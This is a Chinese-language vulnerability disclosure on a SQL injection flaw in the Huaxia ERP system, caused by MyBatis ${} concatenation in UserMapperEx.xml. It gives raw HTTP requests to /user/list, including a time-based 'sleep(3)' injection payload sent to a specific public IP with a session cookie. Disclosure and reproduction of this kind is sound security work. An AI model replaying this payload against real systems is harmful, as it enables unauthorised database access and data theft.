








## 华夏ERP存在SQL注入漏洞

## 漏洞描述

华夏ERP基于SpringBoot框架和SaaS模式，可以算作是国内人气较高的一款ERP项目，但经过源码审计发现其存在多个漏洞，本篇为SQL注入漏洞解。

## 漏洞影响

> 华夏ERP

## FOFA

> 请自测

## 漏洞复现

漏洞复现：

1、漏洞代码位置

```
src/main/resources/mapper_xml/UserMapperEx.xml
```



使用mybatis时 ${} 会对参数和sql语句进行拼接，因而存在sql注入漏洞

2、漏洞验证

正常查询


```
GET /user/list?search=%7B%22userName%22%3A%22%22%2C%22loginName%22%3A%22q%22%2C%22offset%22%3A%221%22%2C%22rows%22%3A%221%22%7D¤tPage=1&pageSize=10&t=1615274773529 HTTP/1.1Host: 47.116.69.14User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36Accept: application/json, text/javascript, */*; q=0.01Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateX-Requested-With: XMLHttpRequestConnection: closeReferer: http://47.116.69.14/pages/manage/user.htmlCookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1615274745; JSESSIONID=C5EBD91E0E68081AA25F206F2FECAC82; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1615274770
```

使用sleep延时注入



```
GET /user/list?search=%7B%22userName%22%3A%22'and+sleep(3)--%22%2C%22loginName%22%3A%22q%22%2C%22offset%22%3A%221%22%2C%22rows%22%3A%221%22%7D¤tPage=1&pageSize=10&t=1615274773529 HTTP/1.1Host: 47.116.69.14User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36Accept: application/json, text/javascript, */*; q=0.01Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateX-Requested-With: XMLHttpRequestConnection: closeReferer: http://47.116.69.14/pages/manage/user.htmlCookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1615274745; JSESSIONID=C5EBD91E0E68081AA25F206F2FECAC82; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1615274770
```


3、漏洞代码

src/main/java/com/jsh/erp/controller/ResourceController.java



src/main/java/com/jsh/erp/service/CommonQueryManager.java



src/main/java/com/jsh/erp/service/user/UserComponent.java



src/main/java/com/jsh/erp/service/user/UserService.java



src/main/resources/mapper_xml/UserMapperEx.xml

